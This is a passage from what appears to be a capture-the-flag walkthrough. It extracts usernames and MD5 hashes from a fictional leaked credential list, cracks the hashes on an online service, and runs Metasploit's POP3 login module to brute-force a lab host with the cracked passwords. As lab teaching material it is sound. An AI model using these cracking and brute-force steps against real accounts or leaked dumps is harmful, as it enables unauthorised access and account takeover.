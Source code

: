 ```

B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

Here are the information there! now we need to copy only credentials and paste into our kali machine. now it comes to text manipulation technique in order to extract information we need only.
` cat credentials.txt | cut -d: -f2 > hashes.txt` this command will extract only hashes password and put it into hashes.txt.

## 4. Can you decode these md5 hashes? You can even use sites like [hashkiller](https://hashkiller.io/listmanager) to decode them.

### របៀបធ្វើ

Now can display the hashes.txt and copy those hashes and put into crackstation.net, here i used crackstation to crack the hashes.

![Alt text](https://bafybeidx2odzw3gcikveb7nbqrulz6lsajw62sgecycum6ebgoxtsxpqou.ipfs.w3s.link/Screenshot%202025-01-17%20144628.png)

After we cracked the passwords, we successfully cracked many passwords, now try to copy the password and put into a text file inside our kali machine and name it as `password.txt`.

Now we used text manipulation to extract the username of the employees, by using the following command:
`cat credentials.txt | cut -d@ -f1 > accounts.txt`

This will extract only usernames from our credential.txt file which contain multiple data. now we got accounts.txt which store usernames, and passwords.txt which store passwords.

## 5. Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?

### របៀបធ្វើ

Use metasploit to brute force the pop3 login with the usernames, and cracked passwords.

```
msfconsole
use auxiliary/scanner/pop3/pop3-login
set RHOST 10.10.229.221
set STOP_ON_SUCESS true
set USER_FILE accounts.txt
set PASS_FILE passwords.txt
exploit
```
